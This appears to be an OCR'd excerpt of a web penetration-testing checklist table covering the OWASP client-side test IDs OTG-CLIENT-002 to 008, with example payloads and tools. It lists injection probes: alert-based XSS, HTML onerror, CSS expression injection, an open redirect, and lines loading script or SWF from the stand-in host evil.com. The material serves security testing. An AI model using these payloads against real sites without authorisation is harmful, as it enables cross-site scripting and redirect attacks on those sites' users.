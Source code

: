 |OTG-CLIENT-002                             |Testing for JavaScript Execution                                          |Inject JavaScript code:<br>`www.victim.com/?javascript:alert(1)`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Burp Proxy, ZAP|
|OTG-CLIENT-003                             |Testing for HTML Injection                                                |Send malicious HTML code:<br>`?user=<img%20src='aaa'%20onerror=alert(1)>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |Burp Proxy, ZAP|
|OTG-CLIENT-004                             |Testing for Client Side URL Redirect                                      |Modify untrusted URL input to a malicious site: (Open Redirect)<br>`?redirect=www.fake-target.site`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Burp Proxy, ZAP|
|OTG-CLIENT-005                             |Testing for CSS Injection                                                 |Inject code in the CSS context :<br>• `www.victim.com/#red;-o-link:'javascript:alert(1)';-o-link-source:current; (Opera \[8,12\])`<br>• `www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Burp Proxy, ZAP|
|OTG-CLIENT-006                             |Testing for Client Side Resource Manipulation                             |External JavaScript could be easily injected in the trusted web site<br>`www.victim.com/#http://evil.com/js.js`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Burp Proxy, ZAP|
|OTG-CLIENT-007                             |Test Cross Origin Resource Sharing                                        |Check the HTTP headers in order to understand how CORS is<br>used (Origin Header)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Burp Proxy, ZAP|
|OTG-CLIENT-008                             |Testing for Cross Site Flashing                                           |Decompile, Undefined variables, Unsafe methods, Include malicious SWF `http://victim/file.swf?lang=http://evil`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |FlashBang, Flare, Flasm, SWFScan, SWF Intruder|